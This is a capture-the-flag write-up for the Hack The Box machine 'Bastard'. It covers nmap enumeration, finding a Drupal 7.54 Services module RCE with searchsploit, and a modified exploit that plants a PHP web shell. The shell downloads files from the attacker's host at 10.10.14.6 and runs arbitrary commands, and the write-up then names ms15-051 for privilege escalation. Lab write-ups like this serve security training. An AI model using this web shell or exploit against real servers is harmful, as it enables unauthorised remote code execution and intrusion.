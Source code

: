 # Bastard

## Information Gathering

Running nmap
```
root@kali:~/hackthebox/Bastard# cat nmap/bastard.nmap
# Nmap 7.70 scan initiated Tue Jul 16 11:22:20 2019 as: nmap -sC -sV -oA nmap/bastard 10.10.10.9
Nmap scan report for 10.10.10.9
Host is up (0.071s latency).
Not shown: 997 filtered ports
PORT      STATE SERVICE VERSION
80/tcp    open  http    Microsoft IIS httpd 7.5
|_http-generator: Drupal 7 (http://drupal.org)
| http-methods:
|_  Potentially risky methods: TRACE
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt
|_/LICENSE.txt /MAINTAINERS.txt
|_http-server-header: Microsoft-IIS/7.5
|_http-title: Welcome to 10.10.10.9 | 10.10.10.9
135/tcp   open  msrpc   Microsoft Windows RPC
49154/tcp open  unknown
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```
We can see drupal in por 80.
http://10.10.10.9/CHANGELOG.txt shows exact version: Drupal 7.54, 2017-02-01
Let's search for available exploits:

```
root@kali:~/hackthebox/Bastard# searchsploit drupal 7.
...
Drupal 7.x Module Services - Remote Code Execution | exploits/php/webapps/41564.php
...
```

## Exploitation

Adjust and run the exploit:
```php
$url = 'http://10.10.10.9';                                                                                                                                  
$endpoint_path = '/rest';
$endpoint = 'rest_endpoint';
$phpCode = <<<'EOD'
<?php
        if (isset($_REQUEST['fupload'])) {
                file_put_contents($_REQUEST['fupload'], file_get_contents("http://10.10.14.6:8090/" . $_REQUEST['fupload']));                               
        };
        if (isset($_REQUEST['fexec'])) {
                echo "<pre>" . shell_exec($_REQUEST['fexec']) . "</pre>";
        };
?>
EOD;
$file = [
    'filename' => 'shell2.php',
    'data' => $phpCode
];
```
Now we have a shell available at http://10.10.10.9/shell2.php

## PrivEsc
The machine is vulnerable to ms15-051, so we can upload and execute an exploit.
https://github.com/jivoi/pentest/blob/master/exploit_win/ms15-051
